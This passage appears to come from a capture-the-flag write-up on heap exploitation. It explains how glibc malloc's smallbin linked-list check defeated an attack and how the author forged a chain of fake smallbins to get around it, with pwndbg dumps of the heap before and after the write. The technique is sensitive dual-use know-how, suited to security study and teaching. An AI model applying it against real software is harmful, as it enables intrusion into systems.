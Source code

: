 The error was in `malloc`'s heap corruption check again. `Heapinfo` gives

`0x1805a10  <--> 0x1825790 (doubly linked list corruption 0x1825790 != 0x18298b0 and 0x18298d0 or 0x1825790 is broken)`.

What was happening is that I eventually tried to allocate the first chunk, because it was now at the end of the smallbin list. The fact that the second chunk was marked as used doesn't matter. And when I tried to do so, `malloc` checked that the `fwd` pointer for the bin pointed to by the `bck` pointer for chunk 1 was also chunk 1, and that of course fails. I was back where I was before.

The problem was that I didn't know an address for a legitimate smallbin at the time of the write. (That is, I actually knew one, but I didn't think so due to my math error.) Well, what if I were to manufacture a bunch of fake smallbins that are linked to each other? Maybe there will be enough of them for me to be able to get the turtle to say something before the application crashed. After all, I just needed enough smallbins to be allocateable before crashing so that I could implement the exploit. Ideally I could use the stack as I could write plenty of bytes there, but the trouble was that I didn't know where the stack was, due to ASLR.

Maybe I could make maximum use of the available space on the heap then. I drew out a diagram to get rid of the previous size field (not used during allocation) and thereby squeezed eight allocations out of the available space.

Here's the original heap before the write:
```code
pwndbg> x /26gx 0xf788b0
0xf788b0:	0x00000000006014c0	0x0000000000000021
0xf788c0:	0x0000000000f82640	0x0000000000000000
0xf788d0:	0x000000150000000c	0x0000000000000021
0xf788e0:	0x0000000000fad870	0x0000000000f74790
0xf788f0:	0x0000000000000020	0x0000000000000020
0xf78900:	0x0000000000f722a0	0x0000000000000000
0xf78910:	0x0000001d0000000c	0x0000000000000021
0xf78920:	0x0000000000fb2660	0x0000000000fa5230
0xf78930:	0x0000000000000020	0x0000000000000020
0xf78940:	0x0000000000f82650	0x0000000000000000
0xf78950:	0x0000001800000010	0x0000000000000021
0xf78960:	0x0000000000f913e0	0x0000000000000000
0xf78970:	0x0000000000000000	0x0000000000000021
```
and after the write:

```code
pwndbg> x /26gx 0xf788b0
0xf788b0:	0x00000000006014c0	0x0000000000000020
0xf788c0:	0x0000000000f78910	0x0000000000f788c8
0xf788d0:	0x0000000000000020	0x0000000000f788b0
0xf788e0:	0x0000000000f788e0	0x0000000000000020
0xf788f0:	0x0000000000f788c8	0x0000000000f788f8
0xf78900:	0x0000000000000020	0x0000000000f788e0
0xf78910:	0x0000000000f78928	0x0000000000000020
0xf78920:	0x0000000000f78910	0x0000000000f788b0
0xf78930:	0x0000000000000020	0x0000000000f788f8
0xf78940:	0x0000000000f78940	0x0000000000000020
0xf78950:	0x0000000000f78928	0x0000000000f78958
0xf78960:	0x0000000000000020	0x0000000000f78940
0xf78970:	0x0000000000f78970	0x0000000000000021
```
